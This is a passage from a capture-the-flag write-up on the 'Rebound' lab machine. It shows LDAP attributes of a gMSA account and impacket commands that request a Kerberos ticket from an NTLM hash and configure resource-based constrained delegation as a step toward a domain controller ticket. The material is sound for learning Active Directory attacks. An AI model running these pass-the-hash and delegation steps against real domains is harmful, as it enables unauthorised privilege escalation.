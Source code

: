 ```
objectguid                     : c9da97ae-5e35-44d2-aa15-114aecdc0caf
msds-managedpasswordid         : {1, 0, 0, 0...}
msds-allowedtodelegateto       : http/dc01.rebound.htb
samaccountname                 : delegator$
objectcategory                 : CN=ms-DS-Group-Managed-Service-Account,CN=Schema,CN=Configuration,DC=rebound,DC=htb
dscorepropagationdata          : 1/1/1601 12:00:00 AM
serviceprincipalname           : browser/dc01.rebound.htb
msds-managedpasswordinterval   : 30
lastlogon                      : 4/9/2023 3:25:20 AM
badpwdcount                    : 0
cn                             : delegator
useraccountcontrol             : WORKSTATION_TRUST_ACCOUNT
whencreated                    : 4/8/2023 9:08:31 AM
primarygroupid                 : 515
iscriticalsystemobject         : False
msds-supportedencryptiontypes  : 28
usnchanged                     : 173699
lastlogoff                     : 12/31/1600 4:00:00 PM
dnshostname                    : gmsa.rebound.htb
```

We have the NTLM hash of this `delegator$` user. I found that abusing delegation without the `msds-AllowedToActOnBehalfOfOtherIdentity` property was not possible, and as such I focused on enabling this property.&#x20;

{% hint style="info" %}
From this point on, someone offered me some help. Whoever you are, thank you!
{% endhint %}

Their method involved the following:

* Requesting a TGT using the NTLM hash for `delegator$`.&#x20;
* Using that ticket to allow delegation from `ldap_monitor` to `delegator$` through RBCD.&#x20;
* Requesting ticket for `ldap_monitor` and then proceeding with regular constrained delegation stuff to get a ticket for `dc01$`.&#x20;

The part I was stuck on was the RBCD part, since I had no idea why we had to use `ldap_monitor` to do so. I'll attempt to cover these later.&#x20;

First, let's get the ticket needed:

{% code overflow="wrap" %}
```
$ sudo ntpdate -S dc01.rebound.htb
$ impacket-getTGT 'rebound.htb/delegator$@rebound.htb' -hashes <NTLM>
$ export KRB5CCNAME=delegator\$@dc01.rebound.htb.ccache
```
{% endcode %}

Afterwards, we can use `impacket-rbcd` for this:

{% code overflow="wrap" %}
```
$ impacket-rbcd -k -no-pass 'rebound.htb/delegator$@rebound.htb' -delegate-to 'delegator$' -use-ldaps -debug -action write -delegate-from ldap_monitor
```
{% endcode %}
